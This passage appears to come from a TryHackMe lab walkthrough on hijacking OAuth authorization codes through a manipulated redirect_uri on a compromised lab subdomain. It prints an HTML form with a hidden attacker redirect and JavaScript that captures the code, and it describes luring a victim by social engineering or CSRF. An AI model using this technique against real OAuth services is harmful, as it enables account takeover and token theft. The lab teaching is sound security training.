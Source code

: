 ![coffeeshopapp application panel showing redirect_uri](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1723542692246.png)

- **Attacker's Strategy**:Â If an attacker gains control overÂ `dev.bistro.thm`, they can exploit the OAuth flow. By setting theÂ `redirect_uri`Â toÂ `http://dev.bistro.thm/callback`, the authorization server will send the token to this controlled domain.
- **Crafted Attack:**Â The attacker initiates an OAuth flow and ensures theÂ `redirect_uri`Â points to their controlled domain. After the user authorizes the application, the token is sent toÂ `http://dev.bistro.thm/callback`. The attacker can now capture this token and use it to access protected resources.

Preparing the Payload (Attacker Perspective)

Before starting the exercise, please ensure you are logged out of the OAuth provider as a victim by visiting the linkÂ [http://coffee.thm:8000/admin/logout](http://coffee.thm:8000/admin/logout).

For this exercise, we assume that the attacker has compromised the domainÂ `dev.bistro.thm:8002`Â and can host any HTML page on the server. Consider Tom, a victim to whom we will send a link. The attacker can craft a simple HTML page (`redirect_uri.html`) with the following code:

```html
     <form action="http://coffee.thm:8000/oauthdemo/oauth_login/" method="get">
            <input type="hidden" name="redirect_uri" value="http://dev.bistro.thm:8002/malicious_redirect.html">
            <input type="submit" value="Hijack OAuth">
        </form>
```

This form sends a hiddenÂ `redirect_uri`Â parameter with the valueÂ `http://dev.bistro.thm:8002/malicious_redirect.html`Â and submits a request toÂ [http://coffee.thm:8000/oauthdemo/oauth_login/.](http://coffee.thm:8000/oauthdemo/oauth_login/)Â Â TheÂ `malicious_redirect.html`Â page then intercepts the authorization code from the URL using the following code:

```javascript
<script>
            // Extract the authorization code from the URL
            const urlParams = new URLSearchParams(window.location.search);
            const code = urlParams.get('code');
            document.getElementById('auth_code').innerText = code;
            console.log("Intercepted Authorization Code:", code);
            // code to save the acquired code in database/file etc
        </script>
        
```

**Note**: Since the attacker has complete control over the subdomain, once he redirects a victim to the attacker-controlled domain, he will save the credentials in a database/file, etc., for later usage. Moreover, the redirection from redirect_uri to the original URL would be so quick that the victim would have no idea that his authorization code has been hijacked.

The attacker can send Tom the link ([http://dev.bistro.thm:8002/redirect_uri.html](http://dev.bistro.thm:8002/redirect_uri.html)) throughÂ social engineeringÂ tactics or aÂ CSRFÂ attack. The victim, unsuspecting of the malicious intent, clicks on the link, which takes them to the URLÂ `dev.bistro.thm:8002/redirect_uri.html`. In the attachedÂ VM, open theÂ [link](http://dev.bistro.thm:8002/redirect_uri.html)Â in the browser as a victim. Here, you will see the following screen:

![login via oauth with malicious redirect](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1721893887281.png)
